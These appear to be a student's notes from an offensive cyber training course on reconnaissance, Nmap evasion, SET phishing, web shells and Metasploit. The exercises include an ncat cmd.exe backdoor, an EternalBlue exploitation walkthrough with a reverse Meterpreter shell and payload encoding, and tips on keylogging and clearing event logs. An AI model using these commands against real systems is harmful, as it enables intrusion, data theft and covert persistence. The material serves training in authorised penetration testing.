


# CTE - Week 4

## Classroom Links

* [Teams](https://teams.microsoft.com/l/team/19%3a7a166f374eb44c89bb972a20cf5a3d6e%40thread.tacv2/conversations?groupId=b0216bab-7ebb-498b-af22-3d7c8db2d92f&tenantId=37247798-f42c-42fd-8a37-d49c7128d36b)  
* [CLME](https://learn.dcita.edu/)
* [CTE_TTPs_Lab_Manual_CTA_1901](.\Files\CTE_TTPs_Lab_Manual_CTA_1901.pdf)

___

## Lesson - Module 2 — Lesson 1: Passive Reconnaissance

___

### Lesson Overview - Reconnaissance

* Recon Types
  * Passive
  * Semi-passive
  * Ative
* Recon Categories
  * Infrastructure
  * People
  * Organization
* Recon Tools
  * Native OS Tools
  * Robtex
  * Shodan
  * Maltego
  * Metagoofil
  * theHarvester
  * Recon-ng
  * ThreatMiner

### Reconnaissance. and The Art of War


### Reconnaissance: Gathering Information

* Gather as much as possible
* Find publicly available information (Open Source)
* Avoid detection
* Avoid triggering alerts on Intrusion Detection Systems (IDS)
* Avoid creating any log entries on target systems
* Keep detailed notes

### Passive Reconnaissance

* Never send any traffic (packets) to target organization
* Collection activities must never be detected by the target
* Only gather archived or stored information
* Gathered information could be inaccurate and out of date — some may be collected by a third party

### Open Source Intelligence (OSINT)

* Another name for passive reconnaissance
* Information related to the target from publicly available sources
* Discover potential vectors or entry points into an organization

  

### Semi-passive Reconnaissance

* Profile the target with methods that appear like normal Internet traffic and behavior
* Avoid drawing attention, meaning...
  * No in-depth reverse lookups
  * No brute force DNS requests
  * No searching for hidden content unpublished" servers or directories
  * No port scans or crawlers on target network
* Only metadata found in published documents and files

### Active Reconnaissance

* Actively mapping network infrastructure through port scans
* Actively enumerating and/or vulnerability scanning for open services
* Actively seeking unpublished directories, files, and servers
* Should be detected by the target as suspicious or malicious behavior

### Personnel / Organizational Reconnaissance

* Create personnel and organizational profiles from customer's web presence
* Identify possible vulnerabilities found in relevant open source information
* Create persona and website (callback) profiles (malware)
* Harvest email addresses
* Social engineering opportunities
* Metadata for files, if found (data about data)   Lack of individual internet presence

### Infrastructure Reconnaissance

* Discover all networks owned by the target
* Identify presence in othe rcountries
* Discover top level domains (TLD)
* Build a network diagram
  
### Reonaissance Tools

* Native OS Tools (whois, nslookup, dig)
* Robtex
* Kali Open Sources Tools
  * Shodan
  * Maltego
  * Metagoofil  
  * theHarvester
  * Recon-ng
  * ThreatMiner  

### whois

* Identifies:
  * Registry Info
  * Creation Date
  * Update Date
  * Domain Status
  * DNS Servers
  * Contacs

### nslookup

* Identifies:
  * Local DNS server   * Non-authoritative DNS server
  * Mail servers (mx)
  * DNS servers (ns)
  * Start of Authority (soa)
  * Pointer (ptr)
  * A record (a)
  * AAAA record (aaaa)

### dig

* Identifies:
  * Local DNS server
  * Non-authoritative DNS server
  * Mail servers (mx)
  * DNS servers (ns)
  * Start of Authority (soa)
  * Pointer (ptr)
  * A record (a)
  * AAAA record (aaaa)

### host

* Identifies:
  * Mail servers (mx)
  * DNS servers (ns)
  * Start of authority (soa)
  * Pointer (ptr)
  * A record (a)
  * AAAA record (aaaa)

### Differences Between host, dig and nslookup

nslookup | host | dig
--- | --- | ---
First tool for querying DNS | Does the domain exist or resolve to an address? | Used for probing the DNS
CLI for interacting with the DNS | Searching for simple DNS record type | Produces multiline output
Difficult to script | | More comprehensive answer than host
___

* Both **dig** and **host** created to facilitate scripting and ease of use

### DNS Resouce Records

* Types of DNS Records
  * Start of Authority (SOA)
  * IP addresses (A and AAAA)
  * SMTP mail exchangers (MX)
  * Name servers (NS)
  * Pointers for reverse DNS lookups (PTR)
  * Domain name aliases (CNAME)
  * DNS Security Extensions (DNSSEC)
  * Responsible Person (RP)
  * Real-time Blackhole List (RBC)

### OSINT Framework

* [OSINT Framwork URL](https://osintframework.com/)
* [OSINT Framwork GitHub](https://github.com/lockfale/osint-framework)
* Navigate options for information gathering
* Highlights tools or resources for OSINT

### Robtex

* Comprehensive free DNS lookup tool
* Used for infrastructure research

### Shodan

* Shodan crawls the Internet 24/7 to provide the latest Internet intelligence
* Shodan can integrate with Nmap, Metasploit,
FOCA, Chrome, Firefox and other tools
* Shodan collects information on public facing IPS
  

### Maltego

* Data Mining Tool
* Relationships based on public (Open
Source) information
* Queries DNS, WHOIS, search engines, social media, etc.
* Visual representation of links
* Easily loaded onto Kali Linux
* Requires account registration
* APIs are required for full functionality
  
* Infrastructure of the Paterva.com:
  * Starts with the domain and then gets hostnames for the zone
  * Hostnames resolve to IP addresses
  * IPS taken to netblocks
  * Netblocks to Autonomous Systems (AS)
  * Locations
  
* "Transforms" link to data sources, such as Shodan, VirusTotal, ThreatMiner, and others.
* Transform Input data (IPs, domain names, etc.) and return Output data (domain names, IPs, etc.).
* Output data then becomes Input data
  

### Metagoofil

* First, performs a Google search to identify and download documents from a  target to local disk
* Next, extracts file metadata with different libraries, such as Hachoir, PdfMiner and others
* Metagoofil downloads local copies of the target's documents and their source locations
* With the results, Metagoofil generates a report with:
  * usernames
  * emails
  * software versions and servers
  * machine names

### theHarvester

* Both Active and Passive Tool
* Gathers
  * Email addresses
  * Virtual hosts
  * Subdomain names
  * Open ports and banners
  * Employee names
* Results for Pepsi.com
  * 92 total hosts found in search engines
  * 68 hosts with IP's
  * 13 virtual hosts
  * 1 1 'empty' (no IP's)
  * 0 emails

### Recon-ng

* Designed to facilitate web-based open source reconnaissance
* Modeled on Metasploit as far as look, feel and basic functionality
* Built around modules and a database as information is gathered
* Scrapes information from websites such as Google, Bing and others
* Python-based
* Use help to list basic commands
  * `?` can also be used
* Use `keys list` to list all APIs that can be entered
* For full-functionality, load APIs for databases relevant to search:
  * Bing
  * BuiltWith
  * Censys
  * FliCkr
  * FullContact
  * Github
  * Google (CSE)
  * Hashes.org
  * IP Info Database
  * Jigsaw
  * Shodan
  * AmlPwned
  * Twitter
  

### ThreatMiner

* Pivot directly from an open source research report to:
  * PassiveTotal
  * VirusTotal
  * Censys
  * Shodan
  * Ipinfo
  * ThreatCrowd
  * AlientVault OTX
  * Robtex

### Lesson 1 Summary

* In this lesson we learned about:
  * The phases of reconnaissance
  * Categories of information
    * People
    * Infrastructure
  * Open source reconnaissance tools
    * Native OS Tools
    * Robtex
    * Maltego
    * Metagoofil
    * theHarvester
    * Recon-ng
    * ThreatMiner

___  

## Exercise - Module 2, Lesson 1 – Conducting Passive Reconnaissance  

___

* IP Addresses
* Sub-Domains
* People responsible for network administration
* Contacts that might benefit in future operations
* Possible vulnerabilities
* Avenues of approach that could be used in later stages of an attack  

### dcita.com  

* AWS Site
* whois  
  * Avenues of approach that could be used in later stages of an attack  
    * nsg1.namebrightdns.com
    * nsg2.namebrightdns.com
    * DNSSEC: unsigned
* nslookup
  * IP address
    * 3.223.115.185
* dig
  * No New info
* Shodan  
  * No Results by name
  *   
    * IIS 8.5
    * Port 80
* Maltego
* Metagoofil
* theHarvester
* Recon-ng
* ThreatMiner  
  * smmse.com - malware sample

#### dc3.mil  

* whois
  * No Info
* nslookup  
  * 23.2.157.129
* dig  
  * DNS Info
    * ns2.dc3.mil
    * ns3.dc3.mil
* Shodan  
* Maltego
* Metagoofil
* theHarvester
* Recon-ng
* ThreatMiner
  * AirForceSystemsNetworking
  * DNS IP - 214.3.152.70
  * IPInfo - AS385 - af.mil

### dcita.edu  

* whois  
  * Avenues of approach that could be used in later stages of an attack
    * PDNS03.DOMAINCONTROL.COM
    * PDNS04.DOMAINCONTROL.COM
* nslookup  
  * IP Address
    * 35.153.155.228
* dig  
  * No New info
* Shodan  
  * No Results by name
  *   
    * nginx  
    * Port 443
    * bootstrap; google tag manager; gsap; jquery; jquery UI  
* Maltego
* Metagoofil
* theHarvester
* Recon-ng
* ThreatMiner  

___

## Lesson - Module 2, Lesson 2: Active Scanning and Enumeration

___

### Acitive Scanning and Enumeration

* Conduct active reconnaissance
* Develop mission reports from results of exploitation

### Methods of Scanning

* Passive discovery techniques
  * Monitor communications
  * Transparent
  * Take more time
* Active Discovery techniques
  * Fast
  * Provide a lot of information
  * Can trigger alerts
* Port Scaning
  * Determining ports that are open
  * Reveals presence of devices
  * Reconnaissance tool for attackers
* Vulnerability Scanning
  * Combines port scaning
  * Reveals hosts and servers for known vulnerabilities
  * Provides report
  
### Major Protocols Review

* Ethernet
  
* IPv4
  
* ICMP
  
* TCP
  
* UDP
  

### Active Scanning Techniques

* Discovering Hosts (Network Mapping)
  * MAC and IP addresses
  * Host Names
  * Operationg systems (OSs)
  * Services running
* Broadcast pings and ping sweeps
* ARP scans
* ICMPv6 neighbor discovery
* Scanning Ports
  * What will happen when connecting to a TCP port?
  * What about UDP
* OS Detection
* Service and version detection
* Timing and optimizaion
* Fireall and IDS evasion
* Packet manipulation

### Scapy

* What is Scapy?
  * Program for manipulating packtes
  * Capbel of sniffing and tranmitting packets
  * Can handle many tasks:
    * Scanning
    * Traceroute
    * Host Discovery
    * Probing
    * And more
* Why use Scapy?
  * Very useful tool
  * Cross platform
  * Scripting in Python
  * Replay packets
* Important concepts
* Crafting packets
  
* Sending and receiving packets
  * Sending packets is easy
   
  * Or you could use:
   

### Sending and Receiving Packets

* Functions:
  * Send and Receive
    * sr()
  * Send and Receive one packet
    * sr1()

  

### NMAP

* Features include
  * Host and port scanning
  * OS detection
  * Detecting versions
  * Scriptable
* Uses include
  * Mapping networks
  * Identifying open ports
  * Security Auditing
* Graphical User Interface (Zenmap)
  
* Command Line:
  

### NMAP Options

  

### Mapping the Environment— Discovering Hosts

* Discovery Options
  * List scan (-sL)
  * No port scan (-sn)
  * No Ping (-Pn)
  * TCP SYN ping (-PS)
  * TCP ACK ping (-PA)
  * UDP Ping (-PU)
  * SCTP INIT ping (-PY)
  * ICMP Ping Types (-PE; -PP; -PM)
  * IP protocol ping (-PO)
  * ARP ping (-PR)

### Mapping the Environment - Outputting Results


### Mapping the Environment— Port Scanning

Option | Scan Type
--- | ---
-sP | Ping scan only
-sS | TCP SYN
-sT | TCP Connect
-sA | TCP ACK
-sN / -sF / -sX | TCP NULL, FIN, and Xmas
-sW | TCP window
-sM | TCP Miamon
-sU | UDP
-sI | Idle
-b | FTP bounce
-sO | IP protocol

### OS Fingerprinting and Version Detection

* OS DETECTION:
  * -O: Enable OS detection
  * --osscan-limit: Limit OS detection to promising targets
  * --osscan-guess: Guess OS more aggressively
* SERVICE/VERSION DETECTION:
  * -sV: Probe open ports to determine service/ version info
  * --version-intensity \<level>: Set from 0 (light) to 9 (try all probes)
  * --version-light: Limit to most likely probes (intensity 2)
  * --version-all: Try every single probe (intensity 9)
  * --version-trace: Show detailed version scan activity (for debugging)

### Nmap Scripting Engine (NSE)

* Automates networking tasks
  * Network discovery
  * More sophisticated version detection
  * Vulnerability detection
  * Backdoor detection
  * Vulnerability exploitation
* Types of Scripts:
  * Prerule
  * Host
  * Service
  * Postrule
* Categories
  * Auth
  * Broadcast
  * Brute
  * Default
  * Discovery
  * DOS
  * Exploit
  * External
  * Fuzzer
  * Intrusive
  * Malware
  * Safe
  * Version
  * Vuln

### Using Nmap Scripting Engine (NSE)

  

* Selecting scripts
  * locate *.nse
  * find / -name "*.nse"
* Performing Script Scans
  * SCRIPT SCAN:
    * -sc: equivalent to --script=default
    * --scripts>=\<Lua scripts>: \<Lua scripts> is a comma separated list of directories, script-files or script-categories
    * --scritp-arg=<n1=v1,[n2=v2,...]>: provide arguments to scripts
    * --script-args-file=fitename: provide NSE script args in a file
    * --script-trace: Show all data sent and received
    * --script-updatedb: Update the script database.
    * --script-help=\<Lua scripts>: Show help about scripts \<Lua scripts> is a comma-separated list of script-files or script-categories .

### Ncat


* Usage: `ncat [options) [hostname] [port]`
* Options taking a time assume seconds. Append i ms ' for milliseconds, 's' for seconds, 'm' for minutes, or 'h' for hours (e.g. 500ms) .
  * -4 Use IPv4 only
  * -6 Use IPv6 only
  * -U, --unixsock Use Unix domain sockets only
  * -C, --crtf Use CRLF for EOL sequence
  * -c, --sh-exec \<command> Executes the given command via /bin/sh
  * -e, --exec \<command> Executes the given command
  * --lua-exec Executes the given Lua script
  * -g hopl[,hop2, . . ] Loose source routing hop points (8 max)

### Nping

  

* Use `man nping` to find syntax examples
  
  

### Ndiff

  

### Evasion Techniques

* Customizing TCP scan flag (--scan-flags)
* Fragmentation (-f / --mtu)
* Adding decoy IP addresses (-D)
* Idle Scan (-sl)
* Changing the Source port (-g)
* Spoofing IP (-S) and MAC address (--spoof-mac)
* Randomize target scan order (--randomize-hosts)
* Add random data to packets (--data-length)
* Manipulating the time-to-live field (--ttl)
* Send packets with bogus TCP or UDP checksums (--badsums)
* Firewalk (--script firewalk)
  
  

### OpenVAS

* Open source vulnerability scanner
* It's free!
* Over 50,000 network vulnerability tests
* Identifies vulnerabilities - Does not fix them
* Allows customized:
  * Targets
  * Scans
  * Depth of scans, and scan regions
  * Reports

### OpenVAS — Accessing the Web Interface

  

### OpenVAS - Configuring a Scan

  

### OpenVAS — Adding Targets

  
  

### OpenVAS — Adding Credentials

  

### OpenVAS — Changing the Network Vulnerability Tests (NVTs)

  

### OpenVAS — Reviewing Scan Results

  
  
  
### Nessus — Accessing

  

### Nessus — Configuring a Scan


  
### Nessus — Launching a Scan

  

### Nessus — Reviewing Scan Results





### Lesson 2 Summary

* In this lesson we learned about:
  * Preparing custom packets for scanning
  * Using Nmap scans to target ports, detect services, versions of operating systems and applications on a remote host and interpret the results
  * Using available scripts to automate networking tasks (such as identifying vulnerabilities, testing controls and detecting backdoors)
  * Using Nmap utilities (ncat, ndiff or nping) to analyze a network, generate network packets, connect to other hosts, or compare existing scans
  * Performing suitable Nmap scans designed to evade the basic rules of firewalls or Intrusion detection systems
  * Completing a vulnerability scan using Nessus and OpenVAS
  * Assessing the vulnerability risks to a system and assemble results for inclusion in reporting

___

## Exercise - Module 2, Lesson 2 – Discovery Scanning and Enumerating Hosts

___

* Scapy  

```scapy
packet = IP()/TCP()
packet[IP].dst = ["192.168.229.165","192.168.229.14","192.168.229.13","192.168.229.80","192.168.229.89","192.168.229.223"]
packet[TCP].dport = 135,445,80
```

* NCAT
  * Simple HTTP Server  
  `nc -lk -p 8080 --sh-exec "echo -e 'HTTP/1.1 200 OK\r\n'; cat index.html"`  
  * Backdoor
    * Listener -  `ncat -l -p 8080 -e cmd.exe`
    * Server -  `ncat <Listener ip_addr> 8080`
* Nping
  * Spoof MAC  
`nping --arp --arp-sender-mac 11:22:33:44:55:66 192.168.229.89, 192.168.22913`
* Install NSE Scripts
  * Download and copy script to `/usr/share/nmap/
scripts` or `/usr/local/share/nmap/scripts`
  * Copy any libraries (`.lua files`) to the `nselib folder`

___

## Exercise - Module 2, Lesson 2 – Advanced Scanning and Evasion Techniques

\<Intentionally Left Blank>
___
___

## Exercise - Module 2, Lesson 2 – Vulnerability Scanning

\<Intentionally Left Blank>
___
___

## Module 2 — Lesson 3: Phishing, Social Engineering and Web Shells

\<Intentionally Left Blank>
___

### Lesson Overview

* In this lesson we will discuss:
  * Social Engineering
  * Social Engineering TTPs
  * Phishing
  * Social Engineering Toolkit (SET)
  * Web Shells
  * Delivery Tactics

### Social Engineering

* Engineering thoughts, actions, and reactions of others
* Psychological coercion to manipulate behavior
* Exploitation of unconscious automatic physiological mechanisms
* Exploiting of traditions, customs, and social norms
* Sometimes in opposition to one's self-interest
* Cialdini's Six 'Weapons of Influence'
  1. Reciprocation
  2. Commitment and consistency
  3. Social proof
  4. Liking
  5. Authority
  6. Scarcity

```Quote
"Each principle is examined as to its ability to produce a distinct kind of automatic, mindless compliance from people, that is, a willingness to say yes without thinking first."
— Robert Cialdini, Ph.D.
```

### Social Engineering TTPs

* Baiting
* Quid Pro Quo
* Water Holing
* Pretexting
* Tailgaing
* Vishing
* Phishing
* Spear Phishing
* Smishing
* Impersonations

### Phishing / Spear-phishing Attacks

* 9 out of 10 cyberattacks begin with an email, according to a FireEye report (September 2018). Report based on 500 million emails sent between January and June 2018.
* Spear-phishing emails, according to a Symantec report, accounted for 7 out of 10 infection vectors by cyber attackers in 2017.
* Steal loing Credentials
* Spyware
* Keyloggers
* Viruses
* Trojans
* Botnet

### Phishing Gone Wild

* Be conscientious when creating phishing emails in an assessment. There has been cases in which the email has leaked outside its intended target.
* *"Transformers 3' filmed in Guam goes viral
* *Leaking High to Low

### Social Engineering Toolkit

* Created by TrustedSec
* Python-based
* Open-source
* Penetration testing framework
* Social engineering attacks
* Phishing Emails
* Various custom attack vectors

### Spear-Phishing Attack Steps

* Choose Spear Phishing Attack Vectors
* Perform a Mass Email Attack
* Other options for spear phishing
  * Create a FileFormat Payload
  * Create Social-Engineering Template
  
* Choose from the following payloads:
  * Flash Player Exploit
  * PDF Exploit
  * Buffer Overflow
  * Stack Overflow
  * RCE Exploit
  * Memory Corruption
  
* Hacker IP 10.1.1.1
* Meterpreter Memory Injection
* Listener Port 443
* Windows Meterpreter Reverse Shell
* Payload via Shellcode Injection
  
* Choose from the following:
  * Windows Address Book
  * Microsoft Help and Support Center
  * Wscript.exe (XP)
  * Various Microsoft Office files
  * Microsoft Group Converter
  * Safari v5.o.1
  * Firefox 3.6.O
  * EnCase
  * IBM License Key Admin
  * Microsoft RDP
  
* Choose the Files Name
* Select Single Email Attack
  * 
* Use Pre-Defined Template
* Select `'Computer Issue'`
* Send email to: `'123click@vulnerable.com'`
* Send from `'hack2hack@spectre.com'`
* From name user will see: `'Poppins, Mary'`
  * 
* Final product:
* wab32res.dll
* File ready for phishing email
  * 

### Web Shell Defined

```quote
"A web-based script or program that gives a remote attacker unrestricted access to the host server." -D0n Quin0te, "Anatomy of a WebShell
```

```quote
"A script that can be uploaded to a web server to enable remote admistration of the machine." -THE GRIZZLY STEPPE REPORT (Unmasking the Russian Cyber Activity)
```

### Why Web Shells

* Highly effective
* Small/easily deployed
* Persistent remote access
* Can fly under Administrator's radar
* Allows privilege escalation
* Can lead to total network compromise
* Hard to detect when dormant
* Often ignored because most security folks are not programmers
* Allows for a botnet

### Alert 5-314A

* Compromised Web Servers and Web Shells - Threat Awareness and Guidance
* Issued November 20th , 2015
* Issued by Department of Homeland Security National Cybersecurity and
Communications Integration Center's (NCCIC)
* Describes the use of web shells as an exploitation vector
* Highlights the seriousness and severity of APTs and criminal groups' use of web shells

### Delivery Tactics

* SQL Injection
* Web App / Service Vulnerabilities (CMS)
* Remote File Include (RFI)
* Local File Include (LFI)

### Basic Web Shell Attack


### Web Shell Example: weeveIy3

* There are many types of web shells but we will focus on weevely3
  * Used in post-exploitation
  * Places a PHP agent on a target web server
  * Backdoor Web Shell
  * Ubiquitous
  * File and Folder Information
  

### Lesson 3 Summary

* In this lesson we learned about:
  * Social Engineering
  * Social Engineering TTPs
  * Phishing
  * Social Engineering Toolkit (SET)
  * Web Shells
  * Delivery Tactics

___

## Exercise - Module 2, Lesson 3 – Drafting a Phishing Email to use with SET

___

\<Intentionally left blank>

___

## Exercise - Module 2, Lesson 3 – Using Social Engineering Template to Send Phishing Emails

___

\<Intentionally left blank>

___

## Exercise - Module 2, Lesson 3 – Web Shell Enumeration and Persistence

___

\<Intentionally left blank>

___

## Lesson - Module 2 — Lesson 4: Metasploit, Part 1

___

### Lesson 4 Overview

* In this lesson we will discuss:
  * Metasploit framework
  * Exploit scripts
  * Payloads
  * Auxiliary modules
  * Command syntax and navigation

* Metasploit Framework
  * Open source framework built on Ruby
  * Launched with msfconsole
  * Consists of Modules and Payloads
  * Module Types:
    * Exploits
    * Auxiliary

### PostgresSQL Database

* Behind the scenes, Metasploit manages a PostgresSQL database.
* This houses all the exploits and payloads used throughout the utility.
* To check the database status, enter `db_status` inside of `msfconsole`.
* To prepare the database, use `msfdb init` from the command-line.
* If it is necessary, you can `msfdb reinit`!

### Auxiliary Modules

* Database
* Scanners
* Fuzzers
* Admin Credentials
* Encoders


### Exploit Modules

* Exploit modules include
  * Shellcode
  * Remote
  * Publicly known
* Payloads:
  * Single Stage
  * Multi Stage

### Organization

* Before you begin throwing exploits, you should prepare a workspace.
* This is a capability to keep track of your activities and scans.
* Usage :

Command | Task
--- | ---
workspace | List workspaces
workspace | List workspaces verbosely
workspace [name] | Switch workspace
workspace -a [name] | Add workspace(s)
workspace -d [name] | Delete workspace(s)
workspace -D | Delete all workspaces
workspace -r \<old> < new> | Rename workspace
workspace -h | Show this help information

### Exploits

* `search` by term or file path
* CVE:2010 type: post
* `post/windows/gather/`
* `use` to enter exploit context
* `show options` to edit exploit or set payload
* `set` to apply a payload to be delivered
* `show evasion` to edit delivery
* `exploit` or `run` to attempt an attack on the target

### Avoiding Slow Search

* The database must be cached to stop slow searches: `db_rebuild_cache`
  * 

### Metasploit Filesystem

* Subdirectories
  * Data
  * Documentation
  * Lib
  * Modules
  * Scripts
  * Tools

### Metasploit Commands

Command | Task
--- | ---
 back | Moves back without exiting
 check | Must be performed from within an exploit  
 connect | Provides limited netcat functionality
 grep | Filter searches
 info | Can be used from msfconsole or within a module
 sessions | Interact with active remote connections
 set | Set an option for an exploit or payload
 setg | The 'g' is for global
 help | Provides options for commands

### Listeners for Pre-delivered Exploits

* Found under exploit/multi/handler
* Used when delivering payload outside of msfconsole
* Must be running when payload is triggered on target
* The generic listener is platform agnostic

### Say you found a payload you would like

* Select a payload or exploit with `use` and its name.
  

### Change the settings

* To tweak the payload or exploit to your liking, start with `show options`:
  

### Applying your changes

* Remember, `set` and `setg` will set an option to a value.

* `setg` is set global... this option will be set this way in all future payloads or exploits that you use!
  * _Not just cmd/windows/bind_perl!_

### You can see the raw payload

* If you would like to see the raw bytes of the payload, use `generate`:


### Avoid bad characters if you need to

* Payloads may fail if any "bad characters" are present... remove them!


### Specify an Encoder

* The `-e` argument will let you specify an encoder.


### Determine the payload output language

* Additionally, you can choose the format of your returned payload:


### Meterpreter

* Metasploit interpreter
* Payload which uses DLL injection
* Has built-in commands as well as extensions
* Using 'help' will list all core commands
* Can be used to enter native Windows shell
* Leave a session without killing it with 'background' command
* Encrypted with TLS
* Extensions need to be loaded into every new session
* Post-connection exploits need a Meterpreter session number   Many post-connection exploits can also be run within a Meterpreter session
* Refer to the help list for the 'sessions' command for reminders of how to interact with sessions

### See it in Action

* Say we wanted a Meterpreter session on a Windows box with the EternalBIue exploit.


### Rapid Enumeration

* Once you have a Meterpreter session, you can easily find information.


### Finding your Meterpreter session

* You can determine what process your session is living inside of...


### Migrate to something more stable

* If the process you are living in dies, your Meterpreter session dies with it.


### Hunt for valuable information

* If you are looking for some form of files, you can search for them easily.


### Download the goods

* If exfiltration is in scope and not very risky, you can download files.


### Start a keylogger

* If you cannot find juicy info on the file system, why not try the keyboard?


### Cover your tracks

* If you feel that you are making a lot of noise, clear the event logs!
* Keep in mind this simply removes all the logs.
* To a trained responder, this may look suspicious!


### Using Scripts with Meterpreter


### Multicommand Script

* Syntax must always begin: multicommand -cl
  * Won't work without -cl
* Can be used in lieu of entering Windows shell
* As the name implies, multiple commands can be strung together
* No functional difference from Windows shell, but the command syntax needs to be learned

### post-Exploitation scripts are powerful

* `run post/windows/gather/checkvm`
  * Test to determine if this machine is a virtual machine
* `run post/windows/gather/enum_logged_on_users`
  * Return a list of users that are currently logged in to that machine
* `run post/windows/gather/enum_av_excluded`
  * Check if any directories are excluded from anti-virus scanning
* `run post/windows/gather/enum_shares`
  * Enumerate SMB shares that are hosted on the machine
* _There are TONS of these scripts!_

### These scripts help find new exploits

* "Lester," the **l**ocal **e**xploit sugg**ester**, can determine other vulnerabilities.

* You should research and become associate with many of these scripts!

### I'm in — What now?

* Stay within your mission scope
* Follow ROE
* Reconnaissance
* Stay hidden
* Find what is being sought after
* Will you want to access this target again?
* tree command is less likely to crash the system than a full system dir
* Clean up your tracks

### Target Artifacts

* Meterpreter core commands are invisible
* Windows commands are not
* Credential injection is loud
* Use of stolen credentials may be logged
* Tmestomp is nice, but should be used carefully
* Remember what you upload

### Lesson 4 Summary

* In this lesson we learned about:
  * Metasploit framework
  * Exploit scripts
  * Payloads
  * Auxiliary modules
  * Command syntax and navigation

___

## Exercise - Module 2, Lesson 4 – Exploiting Windows with Metasploit

___

1. msfdb init -> msfconsole -> db_status

    ```Metasploit
      Creating database user 'msf'
      Creating databases 'msf'
      Creating database 'msf_test'
      Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
    ```

2. workspace -a Win7
3. search platform:Windows
4. search platform:Windows_name:reverse_tcp
5. use payload/windows/shell/reverse_tcp
   windows/x64/meterpreter/reverse_tcp
6. options
7. set LPORT 1234
8. setg LHOST 192.168.229.30
9. 283 bytes Or meterpreter 449
10. generate -b "\x52" -> 313 or 495
11. generate -e x86/shikata_ga_nai ->310 or 476
12. generate -e x86/shikata_ga_nai -t bash
13. search eternalblue
14. use exploit/windows/smb/ms17_010_eternalblue
    set RHOST 192.168.229.18

15. set PAYLOAD windows/x64/meterpreter/reverse_tcp
16. exploit -> spoolsv.exe (getpid; ps)
17. getuid -> NT Authority\system
18. sysinfo
19. sysinfo
20. 0 or 3
  run post/windows/gather/enum_logged_on_usrers
21. WIN-FCQ0LBJ72KK
22. x64\Windows
23. localtime -> Eastern Daylight Time
24. sysinfo -> workgroup
25. idletime -> 10m 15s
26. showmount -> 2
27. execute -f systeminfo.exe -i -H -> ~2300 Mhz
28. pwd -> c:\windows\system32
29. lls -> /home/student
30. ps -> No
31. netstat -> yes
32. No path or process exclusions for windows defender
33. run windows/gather/enum_av_excluded
34. arp -> 14
35. reg enumkey -k "Hklm\system\currentcontrolset\enum\usbstor"
36. run post/windows/gather/enum_applications
37. run post/windows/gather/enum_prefetch

## Lesson - Module 2 — Lesson 5: Metasploit, Part 2

### Msfvenom

* Msfvenom is a combination of Msfpayload and Msfencode and replaced  both tools in 2015.
* Msfpayload was capable of generating all the different types of shellcode available to Metasploit, and Msfencode is used to craft shellcode to specific targets. Additionally, it can encode shellcode multiple times and output the encoding results in numerous formats(i.e. Perl, C, Ruby).
* Msfvenom improves by combining the previously mentioned, simplifying operations and increasing speeds.

### Metasploit Venom

* Used to generate shellcode
* Launched with msfvenom
* Several options for encoders
* An update and consolidation of the tools: msfencode and msfpayload
* Built in support for Microsoft Office documents

### Msfvenom Options

Option | Description
--- | ---
-p | Payload to use
--payload-options | List the payload's standard options
-I [type] | List a module type. Options include: payloads, encoders, nops, or all
-n [length] | Prepend a nopsled of [length] size on to the payload
-f | Output format
--help-formats | List available formats
-e | The encoder to use
-a | The architecture to use
--platform | The platfor of the payload
--help-platforms | List available platforms
-s [size in bytes] | The maximum siz of the resulting payload
-b [x00 x01 ...] | The list of characters to avoid
-i [number] | The number of times to encode the payload
-c [input file] | Specify and additional win32 shellcode file to include
-x [input file] | Specify a custom executable file to use as a template
-o [output file] | Save the payload
-v | Specify a custom variable named to use for certain output formats
--smallest | Generate the smallest possible payload

___

### Msfvenom: Selecting options

* The most efficient way to search for the available options in terms of **payloads, platforms, encoders, nops, archs, encrypt**, and formats will be through the use `--list <option>` method.


### Msfvenom: Putting It All Together

* `msfvenome -a [x86/x64} -platform [OS] -p [payload] -n [nop byte length] -e [encoder] -b [hex value(s)] -i [number of iterations] -f [output filetype] -v --smallest -o [output filename]`


### Reverse and Bind Shells

* Bind opens a port on target
  * Must be used with listener
* Reverse opens a port on attack box
  * Meterpreter session will start by default if your listener and exploit are configured correctly.
* Reverse connections are a better option for hardened targets
